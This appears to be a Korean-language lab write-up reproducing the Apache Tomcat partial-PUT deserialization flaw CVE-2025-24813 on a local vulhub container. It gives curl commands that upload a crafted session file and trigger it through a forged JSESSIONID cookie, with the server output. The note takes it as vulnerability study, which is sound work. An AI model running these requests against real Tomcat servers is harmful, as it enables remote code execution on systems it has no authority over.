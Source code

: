 ⇒ 따라서 이 취약점을 테스트하기 위하여 Apache Tomcat 9.0.97 server를 이용

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2025-24813
docker compose build
docker compose up -d
```

⇒ 이후 브라우저에 [`http://localhost:8080`](http://localhost:8080/) 접속 환인을 통해 Tomcat의 실행을 확인

if 정상 ⇒ It works 메세지 확인 가능

![image.png](attachment:26b02693-ba3c-423b-be30-0a628807c2a1:image.png)

### 악의적인 세션 파일 업로드

### partial PUT 요청 전송

```bash
curl -X PUT "http://<localhost>:8080/deserialize/session" \
  -H "Content-Range: bytes 0-5/10" \
  -d "deserialize content"
```

### For 취약점 테스트 ⇒ 서버 확인 필요

1. readonly=false
2. File-based 세션

```bash
docker exec -it cve-2025-24813-tomcat-1 /bin/bash
cd /usr/local/tomcat/work/Catalina/localhost/ROOT
ls -al
```

- Tomcat은 `/deserialize/session` 경로를 `.deserialize.session` 파일로 저장
    
    ![image.png](attachment:c2e22779-60cb-42da-be35-a36096725b78:image.png)
    

⇒ 성공적으로 악의적인 세션이 업로드 되어 있는 것을 확인 가능

### 조작된 JSESSIONID 쿠키로 역직렬화 유도

```bash
curl -v http://localhost:8080/ \
  -H "Cookie: JSESSIONID=.deserialize"
```

```html
> GET / HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> Cookie: JSESSIONID=.deserialize
>
< HTTP/1.1 200 
< Content-Type: text/html;charset=UTF-8
< Transfer-Encoding: chunked
< Date: Sun, 27 Apr 2025 07:04:57 GMT
<

<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <title>Apache Tomcat/9.0.97</title>
        <link href="favicon.ico" rel="icon" type="image/x-icon" />    
```